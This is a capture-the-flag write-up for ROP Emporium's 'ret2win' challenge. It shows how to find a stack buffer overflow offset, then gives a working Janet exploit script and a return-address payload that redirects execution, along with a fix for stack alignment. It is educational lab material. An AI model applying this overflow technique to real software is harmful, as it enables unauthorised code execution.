 # ret2win

https://ropemporium.com/challenge/ret2win.html

## What to Pwn

Helpfully, the binary is not stripped:

```sh
file ret2win
# ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
# linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0,
# BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```

Looking at the disassembly -- based on the function names -- it is obvious,
that we are supposed to modify `pwnme`s stack to return into `ret2win`.

```
objdump -d -M intel_syntax ret2win

# 0000000000400697 <main>:
#   400697:       55                      push   rbp
#   400698:       48 89 e5                mov    rbp,rsp
# 
#   4006cd:       b8 00 00 00 00          mov    eax,0x0
#   4006d2:       e8 11 00 00 00          call   4006e8 <pwnme>
#  ... SNIP ...
# 
# 00000000004006e8 <pwnme>:
#   4006e8:       55                      push   rbp
#   4006e9:       48 89 e5                mov    rbp,rsp
#   4006ec:       48 83 ec 20             sub    rsp,0x20
#   4006f0:       48 8d 45 e0             lea    rax,[rbp-0x20]
#   4006f4:       ba 20 00 00 00          mov    edx,0x20
#   4006f9:       be 00 00 00 00          mov    esi,0x0
#   4006fe:       48 89 c7                mov    rdi,rax
#   400701:       e8 7a fe ff ff          call   400580 <memset@plt>
#  ... SNIP ...
#   400753:       90                      nop
#   400754:       c9                      leave
#   400755:       c3                      ret
# 
# 0000000000400756 <ret2win>:
#   400756:       55                      push   rbp
#   400757:       48 89 e5                mov    rbp,rsp
#  ... SNIP ...
```

`pwnme` allocates on its stack a buffer of size `0x20` (32 bytes).
We overflow it to jump to the beginning of `ret2win`, the address
`0x0000000000400756`

## Locating the RET value

```sh
printf "A%.0s" {1..50} | ./ret2win
# Segmentation fault

sudo dmesg
# [ 4519.690775] traps: ret2win[878] general protection fault ip:400755 sp:7ffe5bfa77a8 error:0 in ret2win[400000+1000]
```

Looking at `dmesg`, it seems we triggered some `trap`, let's try again with a
shorter payload.

```sh
printf 'A%.0s' {1..40} | ./ret2win
# does not trigger a segfault

printf 'A%.0s' {1..41} | ./ret2win
# does not trigger a segfault

printf 'A%.0s' {1..42} | ./ret2win
# Segmentation fault

sudo dmesg
# [ 4641.186949] ret2win[904]: segfault at 404141 ip 0000000000404141 sp 00007fffb8b6cca0 error 14 in ret2win[600000+1000]
```

We see two `0x41`s, so even though 41 doesn't trigger a segfault the return
address must start at the 41st byte offset.
(I wonder if ROPEmporium made it start at the 41st byte (ASCII 'A') on purpose?)

## Crafting an Exploit Script

We use Janet's `string/repeat` to write 40 'A's, then `string/join` the address
to the end of the payload.

```janet
#!/usr/bin/env janet
(use sh)
(def input (string/join [(string/repeat 'A 40) "\x56\x07\x40\x00\x00\x00\x00\x00"]))
(spit "payload.txt" input)
($ ./ret2win < ,input)
```

However, this doesn't quite produce the expected effect:

```sh
janet exploit.janet

# ret2win by ROP Emporium
# x86_64
# 
# For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
# What could possibly go wrong?
# You there, may I have your input please? And don't worry about null bytes, we're using read()!
# 
# > Thank you!
# Well done! Here's your flag:
# error: command(s) (@[./ret2win :< "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV\x07@\0\0\0\0\0"]) failed, exit code(s) @[129]
#   in $* [/usr/local/lib/janet/sh.janet] on line 255, column 5
#   in _thunk [exp2.janet] (tailcall) on line 8, column 1
```

Well done! Here's your flag: ...wait where?

`ltrace` shows us that the process crashes when it tries to `cat` the flag file.

```sh
ltrace ./ret2win < payload.txt

# puts("Well done! Here's your flag:"Well done! Here's your flag:
# )                                                                                             = 29
# system("/bin/cat flag.txt" <no return ...>
# --- SIGSEGV (Segmentation fault) ---
# +++ killed by SIGSEGV +++
```

Looking at the backtrace in GDB gives:

```
(gdb) bt
#0  0x00007ffff7e0fe3c in do_system (line=0x400943 "/bin/cat flag.txt") at ../sysdeps/posix/system.c:148
#1  0x000000000040076e in ret2win ()
#2  0x0000000000000000 in ?? ()
```

So we're failing in `do_system`.
The ROPEmporium's [Beginner's Guide](https://ropemporium.com/guide.html)
mentions something about stack alignment in the "Common Pitfalls" section.

## Don't Mess Up the Stack

We are not limited to jumping to the start of a function, technically we can
jump to anywhere within a function we want to.

After playing around for a while, I found that jumping past `ret2win`s
prologue keeps the stack aligned well enough.

```
(gdb) disassemble ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   %rbp
   0x0000000000400757 <+1>:     mov    %rsp,%rbp
   0x000000000040075a <+4>:     mov    $0x400926,%edi ; <-- We will jump here!
   0x000000000040075f <+9>:     callq  0x400550 <puts@plt>
   0x0000000000400764 <+14>:    mov    $0x400943,%edi
   0x0000000000400769 <+19>:    callq  0x400560 <system@plt>
   0x000000000040076e <+24>:    nop
   0x000000000040076f <+25>:    pop    %rbp
   0x0000000000400770 <+26>:    retq
End of assembler dump.
```

We jump straight to `0x40075A` to avoid setting up a new stack frame.
Our updated exploit script looks like this:

```janet
#!/usr/bin/env janet
(use sh)
(def input (string/join [(string/repeat 'A 40) "\x5a\x07\x40\x00\x00\x00\x00\x00"]))
(spit "payload.txt" input)
($ ./ret2win < ,input)
```

And it works!

```
janet exploit.janet

# ret2win by ROP Emporium
# x86_64
# 
# For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
# What could possibly go wrong?
# You there, may I have your input please? And don't worry about null bytes, we're using read()!
# 
# > Thank you!
# Well done! Here's your flag:
# ROPE{a_placeholder_32byte_flag!}
```
